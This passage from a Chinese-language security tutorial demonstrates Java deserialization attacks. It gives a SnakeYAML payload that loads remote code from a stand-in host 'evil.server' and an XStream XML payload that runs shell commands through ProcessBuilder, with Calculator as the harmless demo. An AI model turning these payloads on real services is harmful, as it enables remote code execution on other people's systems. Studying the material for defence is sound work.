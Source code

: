 最终可触发命令执行

### b. Yaml.load

[参考链接](https://blog.semmle.com/swagger-yaml-parser-vulnerability/)，这里暂未试验

添加SnakeYAML库

```xml
<!-- https://mvnrepository.com/artifact/org.yaml/snakeyaml -->
<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.25</version>
</dependency>
```

```java
public static void main(String[] args) {
  String yamlStr = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader "
                   + "[[!!java.net.URL [\"http://evil.server\"]]]]";
  Yaml yaml = new Yaml();
  Object obj = yaml.load(yamlStr);
}
```

这里的yamlStr可以用https://github.com/mbechler/marshalsec生成危害更大的payload

### c. XStream.fromXML

[参考链接](http://www.polaris-lab.com/index.php/archives/658/)

添加XStream库

```xml
<dependency>
  <groupId>com.thoughtworks.xstream</groupId>
  <artifactId>xstream</artifactId>
  <version>1.4.10</version>
</dependency>
```

```java
public static void main(String[] args) {
//        expGen();
        String payload = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "    <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>/bin/sh</string>\n" +
                "                    <string>-c</string>\n" +
                "                    <string>open /System/Applications/Calculator.app</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "     <action>start</action>"+
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>\n";
        XStream xStream = new XStream();
        xStream.fromXML(payload);
    }
```
